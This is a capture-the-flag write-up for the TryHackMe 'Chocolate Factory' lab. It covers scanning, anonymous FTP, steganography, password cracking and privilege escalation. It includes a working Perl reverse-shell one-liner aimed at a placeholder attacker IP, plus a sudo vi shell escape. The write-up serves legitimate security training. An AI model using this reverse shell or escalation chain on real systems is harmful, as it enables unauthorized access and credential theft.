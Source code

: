# Writeup for Room "Chocolate Factory"

This is the writeup for the box Chocolate Factory

## 🌐🖥️ 1. WebSite
- The website.
- No useful information was found in `robots.txt`.
  
  ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/00.png)

  ![Robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/01.png)

## 🧪🔍⚙️ 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files but no useful information was found.
  
    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/02.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 21 is open. **FTP**
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**
  - ...

  ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/03.png)

## 💉🛢️ 4. SQL Injection 

- I tried to find some kind of SQL Injection vulnerability, but found nothing.

  ![SQL Injection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/05.png)

  ![SQL Injection-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/06.png)

## 📡 5. Nmap Scan again

- I checked again the Nmap scan and I found a fingerprint with a file named ```key_rev_key``` in the http://{ip}/key_rev

  ![key_rev_key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/07.png)

- I downloaded the file and I used the following for checking its content:

  ```
  hexdump -C key_rev_key
  ```

  ![hexdump](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/08.png)

- The content of the file has a part that looks like a key:

  ![hexdump](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/09.png)

- I made a copy of the file in .txt format and used the command ```cat key_rev_key.txt``` to get the first flag, which is the key

  ![cp-content](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/10.png)

  ![cat-content](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/11.png)

## 📁📤📥 6. FTP Access

- I try to use the following credentials to access the FTP:
  ```
  Username: anonymous
  Password: 
  ```

  ![ftp-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/13.png)

- I found a file named ```gum_room.jpg``` in the root directory and I downloaded it.

  ![gum_room.jpg](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/13.png)

## 🕵️‍♂️🖼️ 7. Steganography

- I used different tools to check if the image has hidden information 

  ![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/14.png)

- When I have used the command ```steghide extract -sf gum_room.jpg``` I got the following output: ```b64.txt```

  ![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/15.png)

- After decoding the Base64 string, I got a list of password hashes similar to those in a shadow file.

  ![decode-base64](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/16.png)

## 🔓🗝️💻 8. Password Cracking

- There is a user named ```charlie``` with a hashed password 

  ![user-charlie](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/17.png)

- I used the following command to crack the password of the user ```charlie```:

  ```john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt```

  ![password-cracked](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/18.png)

## 🌐🖥️ 9. WebSite again - Reverse Shell

- I can access to the website with the credentials obtained from the previous phase.

- The website has a input where we can execute commands

  ![input](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/19.png)

- I am going to use a reverse shell to get a shell on the machine

  ![reverse-shell](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/20.png)

- I used the following command to get a reverse shell:

  ```perl -e 'use Socket;$i="TU_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

  ![reverse-shell-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/21.png)

## 🐚💻🚀 10 Reverse Shell - Privilege Escalation

- I moved to the home directory for the user ```charlie``` and I found various files but the file ```user.txt``` is with a permission denied (I am the user ```www-data```).

  ![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/22.png)

- But we can escalate privileges using the private SSH key.

  ![private-ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/23.png)

  ![public-ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/24.png)

- I copied the private SSH key to my user's ```.ssh``` directory and I used the following command to connect to the machine:

  ```ssh -i ~/.ssh/charlie_id_rsa charlie@ip-machine```

  ![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/25.png)

- If I now try to see the contents of the file ```user.txt``` I get the flag : 

  ![user.txt-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/26.png)

- Now, I have used the command ```sudo -l```to check the privileges of the user ```charlie```:

  ![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/27.png)

- After searching GTFOBins to find if there is any specific command for that program to escalate privileges : ``` sudo vi -c ':!/bin/sh' /dev/null ```

  ![sudo-vi](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/28.png)

> [!NOTE]
> The website used to identify if exists a command to escalate privileges has been:
> https://gtfobins.github.io/gtfobins/vi/#sudo

- We need to navigate to the root folder. There, we see a file named root.py which, when executed, asks for a password (the first flag). If we enter it correctly, it gives us the final flag.

  ![root.py](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/29.png)